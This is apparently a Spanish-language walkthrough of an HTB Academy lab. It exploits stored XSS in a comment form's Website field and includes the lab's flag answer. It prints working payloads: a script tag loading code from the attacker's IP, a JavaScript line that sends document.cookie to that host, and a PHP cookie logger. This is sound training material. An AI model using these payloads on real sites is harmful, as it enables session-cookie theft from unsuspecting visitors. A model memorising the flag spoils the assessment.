








# Skills Assessment - SQL Injection Fundamentals

* **Target:** `10.129.106.246`
* **Módulo:** HTB Academy
---
## What is the value of the 'flag' cookie?

* **Answer**: `HTB{cr055_5173_5cr1p71n6_n1nj4}`
#### Procedimiento:
1. Vamos a la pagina: `10.129.106.246/assessment`




2. Encontramos un cuadro de busqueda (search input):



pero normalmente en ejercicios de XSS la cosa no va por ahi.
Ahora, fijate en esto, parece que nos llevara a la sección de comentarios asi que demosle click:



Y ahora tenemos esto:



### A partir de aqui quiero que hagas lo siguiente pero despues te lo voy a explicar asi que no te preocupes, solo sigueme por ahora:

Primero pon esto en tu terminal linux: `ip a s tun0`


Con eso obtenemos nuestra ip que es `10.10.14.252` (en mi caso, a ti te saldra otra obviamente).

Segundo pon esto en la parte que dice "Website": (pon cualquier cosa en "name", "email" y "comment")

```
<script src="http://[LA_IP_QUE_TE_SALIO]:8080"></script>
```


(en la seccion "email" pon cualquier cosa pero obviamente debes poner el `@gmail.com` :v)

NO LE DES A "POST COMMENT" AUN.
Falta esto: Ve a la terminal de linux de nuevo y pon `sudo nc -lvnp 8080`:

Ahora sí, entra a la página y dale en "Post comment".

En tu terminal de linux verás un mensaje algo así:



Eso significa que recibimos el mensaje y, por lo tanto, hemos demostrado que el input es vulnerable.

### Ahora te explico porque hemos hecho eso?
1. **¿Por qué elegimos poner el `<script></script>` en el input de "Website" y no en los otros?**
- Normalmente el input para "name" o "comment" suelen pasar por funciones como `htmlspecialchars()` que convierten los caracteres como `<` o `>` en texto inofensivo.
- El input email casi siempre exige una validación de formato que es: debe acabar en `[texto]@dominio.com`. Un texto que empiece por `<script>` es rechazado de inmediato por el servidor.
- Muchas veces las aplicaciones webs asumen que el campo del website recibirá una URL siempre por lo que, incluso, lo renderizan de forma descuidada. Ahí es donde nosotros nos aprovechamos de eso


2. **¿Por qué pusiste sudo nc -lvnp 8080 en tu terminal?**
nc (Netcat) es una herramienta de redes. Con ese comando le dijiste a tu máquina: "Abre el puerto 8080 y quédate esperando a que alguien, desde cualquier lugar de la red, se conecte a mí."
- -l (listen): Modo escucha (actúa como un servidor temporal).
- -v (verbose): Te muestra en pantalla los detalles de cualquier conexión que llegue.
- -n (numeric only): No pierdas tiempo resolviendo nombres de dominio (DNS), solo usa IPs.
- -p 8080 (port): El número de "puerta" específica que quieres dejar abierta.

3. ¿Por qué pusiste `<script src="..."></script>` en el input?
Eso le dice al navegador web: "Ve a esta dirección web, descarga el archivo de código que haya ahí y ejecútalo."
- Si la web es segura: Convierte los caracteres `<` y `>` en texto plano inofensivo.
- Si la web es vulnerable a XSS: Guarda tu texto tal cual. Cuando el admin entre a revisar la página, su navegador interpretará que esa etiqueta es una orden real de descarga.

## Ya hemos comprobado que el input es vulnerable, ahora pasemos a la explotación de la vulnerabilidad
Igual que antes, sigue estos pasos y despues te explico lo que hemos hecho:
Crea un archivo llamado `index.php`. Para harcerlo, en tu terminal de linux solo pon: `nano index.php`
y pones esto:
```
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

No cambies nada, dejalo así tal cual.

Ahora creamos un archivo llamado `script.js`. Pon `nano script.js` y pon esto dentro:
```
new Image().src = 'http://[TU_IP]:8080/index.php?c=' + encodeURIComponent(document.cookie);
```

A continuación hacemos lo mismo que antes:
1. En la terminal pon: `sudo php -S 0.0.0.0:8080`
2. Luego pon esto en el input de "Website": `<script src="http://[TU_IP]:8080/script.js"></script>`
(fijate que ahora le agregamos `/script.js`




Enviamos el comentario y tenemos esto:



Si pones `ls` notarás que hay un nuevo archivo llamado `cookies.txt` donde está la flag.

## Pero espera, aún no te vayas que todavía no te explique:

1. **El disparador `<script src="http://[TU_IP]:8080/script.js"></script>`**

Cuando guardaste eso en el input, el texto quedó grabado en la página.

Después, la "víctima/administrador" entra a ver la página.

El navegador de la víctima lee tu texto como si fuera una orden legítima: "Descarga y ejecuta el archivo script.js que está alojado en la IP del atacante (la nuestra ya que nosotros somos los atacantes)".


Pero.... En vez de crear un script `script.js`: ¿Por qué no meter todo el código directamente en el input?

No podemos porque muchas veces los inputs tienen un límite de caracteres o filtros que rompen códigos largos. Llamar a un archivo externo (`src="..."`) mantiene el payload diminuto y te permite cambiar el código en tu máquina sin tener que volver a enviar el formulario.


2. **El ladrón `script.js`**

Este es el archivo que no se ejecuta en tu computadora; sino en el navegador de la víctima en el momento en que su máquina descarga el script.
- `document.cookie`: En JavaScript, esto accede a las cookies la sesión actual de la víctima. Ahí es donde HTB guardó la flag en la cookie.
- `encodeURIComponent(...)`: Convierte caracteres especiales (como =, ;, espacios) en formato URL seguro para que no se corten al enviarse.
- `new Image().src = ...`: Los navegadores tienen restricciones de seguridad que a veces bloquean peticiones directas de JavaScript a otros servidores. Sin embargo, los navegadores siempre permiten descargar imágenes de cualquier sitio. Al simular la carga de una imagen falsa, fuerzas al navegador a hacer una petición GET a tu servidor llevando la cookie pegada al final de la URL.

3. **El `index.php`**

Este archivo corre dentro de tu propia máquina (con el comando php -S). Su único trabajo es recibir la información que el ladrón envió y guardarla para que no se pierda.

